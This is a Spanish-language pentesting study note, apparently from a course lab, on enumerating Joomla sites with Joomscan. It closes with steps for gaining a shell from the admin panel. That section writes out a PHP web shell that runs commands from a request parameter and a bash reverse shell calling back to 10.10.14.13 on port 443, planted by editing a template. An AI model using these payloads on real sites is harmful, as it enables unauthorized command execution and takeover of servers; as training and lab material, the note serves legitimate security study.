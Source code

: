 # Joomla 

Tags: #Joomla #CMS  

## Enumeración de gestores de contenido (CMS) – Joomla

Joomla es un sistema de gestión de contenidos (CMS) de código abierto que se utiliza para **crear sitios web** y **aplicaciones en línea**. Joomla es muy popular debido a su facilidad de uso y flexibilidad, lo que lo hace una opción popular para sitios web empresariales, gubernamentales y de organizaciones sin fines de lucro.

Joomla es altamente personalizable y cuenta con una gran cantidad de extensiones disponibles, lo que permite a los usuarios añadir funcionalidades adicionales a sus sitios web sin necesidad de conocimientos de programación avanzados. Joomla también cuenta con una comunidad activa de desarrolladores y usuarios que comparten sus conocimientos y recursos para mejorar el CMS.

A continuación, se comparte el enlace del proyecto que estaremos desplegando en Docker para auditar un Joomla:

-   **CVE-2015-8562**: [Joomla](https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562)

Una de las herramientas que usamos en esta clase es **Joomscan**. Joomscan es una herramienta de línea de comandos diseñada específicamente para escanear sitios web que utilizan Joomla y buscar posibles vulnerabilidades y debilidades de seguridad.

Joomscan utiliza una variedad de técnicas de enumeración para identificar información sobre el sitio web de Joomla, como la versión de Joomla utilizada, los plugins y módulos instalados y los usuarios registrados en el sitio. También utiliza una base de datos de vulnerabilidades conocidas para buscar posibles vulnerabilidades en la instalación de Joomla.

Para utilizar Joomscan, primero debemos descargar la herramienta desde su sitio web oficial. A continuación se os proporciona el enlace al proyecto:

-   **Joomscan**: [https://github.com/OWASP/joomscan](https://github.com/OWASP/joomscan)

## Joomla Enumeración 

Esta herramienta además de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontró.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/             # Tool para enumerar Joomla

❯ https://github.com/joomla/joomla-cms       # Enumerar Joomla 
```

## Obtener una Shell en Joomla

```bash 
1. Para obtener una shell en Joomla se puede lograr de la siguiente manera, editando un 'template' del panel de admin y escribir codigo 'PHP' para ejecutar comandos, debemos de saber la ruta en donde se encuentra instalado el template, ya que ahi podremos ejecutar comandos '?cmd=whoami'


Opcion 1. Editar cualquier template 

1. Seleccionar un template y darle en 'New File'. Despues, colocar un nombre, agregar la extension de 'PHP', dar en 'Create' y colocar el siguiente codigo:
	<?php 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	?>

o de la siguiente manera para obtener la ReverShell directa:

	<?php
	   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
	?>


2. En la siguiente URL se puede acceder al archivo: 

❯ http://IP/templates/protostar/pwned.php?cmd=whoami       # Ejecutar un comando
	# URL-encodeamos la revershell y la colocamos en la url (bash -c 'bash -i >& /dev/tcp/IP/443 0>&1')
❯ http://IP/templates/protostar/pwned.php                  # Llamar al archivo para obtener la ReverShell 
```